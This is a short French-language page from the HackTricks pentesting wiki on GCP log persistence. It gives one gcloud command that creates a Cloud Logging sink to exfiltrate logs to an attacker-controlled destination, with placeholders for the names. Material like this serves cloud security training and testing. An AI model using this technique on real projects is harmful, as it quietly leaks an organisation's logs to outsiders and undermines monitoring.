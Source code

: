 # GCP - Persistance des journaux

{{#include ../../../banners/hacktricks-training.md}}

## Journaux

Trouvez plus d'informations sur les journaux dans :

{{#ref}}
../gcp-services/gcp-logging-enum.md
{{#endref}}

### `logging.sinks.create`

Créez un sink pour exfiltrer les journaux vers une destination accessible par l'attaquant :
```bash
gcloud logging sinks create <sink-name> <destination> --log-filter="FILTER_CONDITION"
```
{{#include ../../../banners/hacktricks-training.md}}
